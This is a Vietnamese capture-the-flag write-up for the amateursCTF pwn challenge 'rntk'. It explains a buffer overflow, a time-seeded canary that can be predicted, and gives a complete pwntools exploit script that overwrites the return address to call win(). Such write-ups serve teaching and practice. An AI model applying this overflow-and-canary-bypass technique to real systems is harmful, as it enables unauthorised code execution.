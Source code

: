 # RNTK

## Overview

![img](/amateursCTF/Pwn/rntk/assets/des.png)

- Bài cho chúng ta 2 file `chal` và `Dockerfile` và nhắc đến hàm sinh ngẫu nhiên.

- Như thường lệ thì mình sẽ kiểm tra file `chal` sau đó cho file `chal` vào IDA để disassemble.
</br>![img](/amateursCTF/Pwn/rntk/assets/info.png)

- Hàm main:
</br>![img](/amateursCTF/Pwn/rntk/assets/ida.png)

- Sau một hồi lục soát thì mình nhận thấy chương trình có hàm `win()` in ra flag và hàm `random_guess()` bị buffer overflow.

- Hàm `win()`:
</br>![img](/amateursCTF/Pwn/rntk/assets/win.png)

- Hàm `random_guess()`:
</br>![img](/amateursCTF/Pwn/rntk/assets/random_guess.png)

- Giá trị của `global_canary` được sinh ra từ giá trị trả về của lời gọi hàm `rand()` trong hàm `generate_canary()`:
</br>![img](/amateursCTF/Pwn/rntk/assets/gen_can.png)

- Như vậy ta có thể tóm tắt lại luồng thực thi của chương trình là ban đầu chương trình sẽ tạo ra giá trị `global_canary` bằng hàm `rand()` với `srand(time(0))`, sau đó chương trình sẽ in ra menu và cho chúng ta chọn 1 trong 3 lựa chọn:
    - 1 là sẽ sinh ra giá trị ngẫu nhiên bằng hàm `rand()` và in nó ra màn hình.
    - 2 là sẽ cho chúng ta nhập input (bị buffer overflow) và chương trình sẽ kiểm tra với `global_canary` sau đó in ra thông báo số đó có giống hay không.
    - lựa chọn 3 là thoát.

## Idea

- Mình sẽ sử dụng lỗi buffer overflow ở hàm `random_guess()` để ghi đè RET của hàm thành địa chỉ của hàm `win()`, khi đó, sau khi hàm thực hiện xong, hàm `win()` sẽ được gọi.

- Tuy nhiên ta cần phải vượt qua lệnh `if` kiểm tra `global_canary` để chương trình ko gọi đến hàm `exit()`.

- Với những bài như này, mình thường sẽ sử dụng ngôn ngữ C, đầu tiền sẽ chạy `sleep()` 1 2 s gì đó để sau đó chạy `time(0)` sẽ đồng thời với server, tiếp theo chỉ cần truyền vào `srand()` là ta có thể lấy được những giá trị tiếp theo của `rand()`. Nhưng bài này lần đầu tiên mình sử dụng thư viện `CDLL` của python thì không được..

- Nên sau đó từ tham khảo của anh Quốc Anh, mình đã có ý tưởng sau.

- với mỗi `seed` thì khả năng cao giá trị của 2 `rand()` liên tiếp sẽ không bị trùng, do đó ta có thể lấy bắt đầu từ `i = time(0)` thử các giá trị `i+1, i+2, i+3, ...` làm `seed` cho `srand()`, nếu giá trị nào cho ra 2 lần `rand()` trùng với 2 giá trị lấy từ server thì khi đó `i + m` đó chính là `seed`.

## Script

```python
from pwn import *
from ctypes import CDLL

win_addr = 0x4012B6
libc = CDLL("libc.so.6")

p = remote("amt.rs", 31175)
t = libc.time(0)

libc.srand(t)
glob = 0

p.sendline(b"1")
p.recvuntil(b"3) Exit\n")
s1 = int(p.recvline().strip(), 10)
p.sendline(b"1")
p.recvuntil(b"3) Exit\n")
s2 = int(p.recvline().strip(), 10)

for i in range(t, t+200):
    print("tried seed " + str(i))
    libc.srand(i)
    glob = libc.rand()
    t1 = libc.rand()
    t2 = libc.rand()
    if (s1 == t1 and s2 == t2):
        print("seed is " + str(i))
        break

payload = str(t1).encode() + b"a"*(0x30-len(str(t1))-4) + p32(glob) + b"a"*8 + p64(win_addr)

p.sendline(b"2")
p.sendline(payload)

p.interactive()
```

## Result

![img](/amateursCTF/Pwn/rntk/assets/ersult.png)


>### Flag: amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}